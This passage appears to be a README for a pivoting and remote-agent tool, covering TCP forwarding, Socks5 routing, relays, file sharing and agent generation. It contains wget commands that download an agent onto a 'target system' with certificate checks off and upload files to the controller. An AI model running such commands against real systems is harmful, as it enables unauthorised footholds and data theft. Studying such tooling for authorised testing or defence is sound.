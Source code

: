 ```
session 1 >
```

TCP forwarding
--------------
We can forward TCP connection through the agent TLS tunnel in both direction.

##### connect 
Listen a port locally (on the controller system) and forward it to a remote service.

##### listen
Listen a port remotely (on the agent system) and forward it to a local service.


Socks5 and routing
-----------------
We can enable a Socks5 listener on the controller to access remote networks through the agents and define routes toward the different sessions.


Make a relay
------------
If the controller is not accessible from the target system (after network pivot) we can define a "relay" on another agent.
Then we can access the controller through the relay like the controller itself.

```
session 1 > relay
Remote Address: 0.0.0.0:9999
session 1 >
```

And from the target system

```
wget https://<relay>:9999/khRoKbh3AZSHbix/agent/darwin/amd64 --no-check-certificate -O agent
````

Share files with the controller
---------------------------------
The controller can share files. 

Copy a file in the share directory and download it with the magic URL 
```
wget https://<controller>:8888/khRoKbh3AZSHbix/my_file --no-check-certificate
```

We can also upload a file to the controller
```
wget https://<controller>:8888/khRoKbh3AZSHbix/other_file --no-check-certificate --post-file file
```

Generate an agent with the CLI
------------------------------
```
server > generate
OS: windows
Arch: amd64
Host: <controller>:8888
HTTP proxy:
HTTPS proxy:
Proxy username:
Proxy password:
Generated agent URL: https://<controller>:8888/Ye8o14kw1rpMJ8f/ySUxt7YT8X5fyat
server >
```
